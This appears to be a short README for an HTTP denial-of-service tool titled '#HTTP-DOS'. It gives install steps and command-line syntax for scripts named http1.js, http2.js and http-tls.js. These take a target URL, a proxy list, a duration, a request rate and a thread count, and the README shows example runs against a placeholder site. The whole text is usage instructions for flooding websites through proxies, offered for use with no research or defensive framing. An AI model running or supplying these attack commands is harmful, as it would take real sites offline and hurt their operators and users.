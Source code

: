 #HTTP-DOS
---------------------------------------------------------------------------
sh install.sh
---------------------------------------------------------------------------
npm i randomstring
---------------------------------------------------------------------------
node jsfile [METHOD] [TARGET] [PROXIES] [DURATION] [RPC] [THREADS]
---------------------------------------------------------------------------
node http1.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node http2.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node jsfile [TARGET] [DURATION] [THREADS] [RPC] [PROXIES]
---------------------------------------------------------------------------
node http-tls.js "https://target.com" 120 1 RPC http.txt
---------------------------------------------------------------------------
